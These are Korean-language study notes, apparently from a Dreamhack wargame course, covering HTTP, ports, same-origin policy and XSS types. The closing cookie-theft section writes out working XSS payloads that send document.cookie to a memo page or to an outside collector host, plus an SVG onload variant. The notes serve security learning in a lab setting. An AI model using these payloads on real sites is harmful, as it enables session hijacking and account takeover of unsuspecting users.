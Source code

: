 # Web Hakcing

## STAGE 2 



## HTTP



    HTTP : 서버와 클라이언트의 데이터 교환을 요청하고 응답하는 형식의 
    정의를 한 프로토콜 중 하나이다.

    *웹 서버는 HTTP 서버를 HTTP 서비스 포트에 대기시킨다.
    =이러한 포트는 일바전으로 TCP/80 or TCP/8080 이다.


## Network Port/Service Port

    네트워크 포트 : 네트워크에서 서버와 클라이언트가 정보를 교환하는 
    추상화된 장소를 의미한다.

    *0번 부터 65535번까지, 총 65536개의 같은 수의 네트워크 포트를 사용한다.


    서비스 포트 : 네트워크 포트 중에서 특정 서비스가 점유하고 있는 포트를 말함.
    Ex) HTTP가 80번 포트를 점유하고 있다면 서비스 포트는 80번 포트가 된다.


## Request
 
    /index.html
    
    HTTP/1.1
    Host: dreamhack.io
    Connection: keep-alive
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36

## Response

    HTTP/1.1  200 ok

    
    Server: Apache/2.4.29 (Ubuntu)
    Content-Length: 61
    Connection: Keep-Alive
    Content-Type: text/html

    <!doctype html>
    <html>
    <head>
    </head>
    <body>
    </body>
    </html>



### `Same Origin Policy의 오리진

    
    오리진 : 프로토콜, 포트, 호스트로 구성이 됨.
    * 모두 일치해야 동일한 오리진이라고 할 수 있음.


![오리진](https://cdn.discordapp.com/attachments/956190154454876183/1022424599792726056/unknown.png)



### `XSS`



    XSS : 클라이언트 사이드 취약점 중 하나로, 공격자가 웹 리소스에
    악성 스크립트를 삽입을 하여서 이용자의 웹 브라우저에서 해당
    스크립트를 실행할 수 있다.



## `XSS 발생 종류와 설명`


 ![XSS](https://media.discordapp.net/attachments/956190154454876183/1022464035733635092/unknown.png?width=477&height=408)



 ## `XSS 스크립트의 예시`


+ 쿠키 및 세션 탈취 공격 코드


![쿠키/세션 탈취 공격 코드](https://cdn.discordapp.com/attachments/956190154454876183/1022466126434795570/unknown.png)


+ 페이지 변조 공격 코드/ 위치 이동 공격 코드


![페이지 변조 공격/위치 이동 공격](https://cdn.discordapp.com/attachments/956190154454876183/1022466146139639828/unknown.png)



### `Stored XSS`


    Stored XSS : 서버의 데이터베이스 또는 파일 등의 형태로 저장된
    악성 스크립트를 조회할 때 발생하는 XSS이다.

    Ex) 게시물/댓글에 악성 스크립트를 포함하여 업로드 하는 방식임.


### `XSS-1`

    / : 인덱스 페이지
    /vuln : 이용자가 입력한 값을 출력을 하는 것
    /meno : 이용자가 메모를 남길 수 있으며, 작성한 메모를 출력
    /flag : 전달된 URL에 임의 이용자가 접속하게 함. 
      => 해당 이용자의 쿠키에는 FLAG가 존재함.


# 쿠키 탈취

## memo 페이지 사용

    flag 엔드포인트에서 다음과 같은 익스플로잇 코드를 입력하면
    memo 엔드포인트에서 임의 이용자의 쿠키 정보를 확인할 수 있음

    <script>location.href = "/memo?memo="+document.cookie;</script>

## 웹 서버 사용

    외부에서 접근 가능한 웹 서버를 통해 탈취한 쿠키를 확인할 수 있음
    flag 기능에서 다음과 같은 익스플로잇 코드를 입력하면,
    접속 기록에 포함된 FLAG를 확인할 수 있다.

    <script>location.href = "http://RANDOMHOST.request.dreamhack.games/?memo="+document.cookie;</script>


`FALG page =>  <svg/onload=location="/memo?memo="+document.cookie;>

    SVG 태그는 벡터 그래픽을 표현할 때 사용되는 데 이 태그를 이용하여 XSS 
    테스트가 가능하다.
















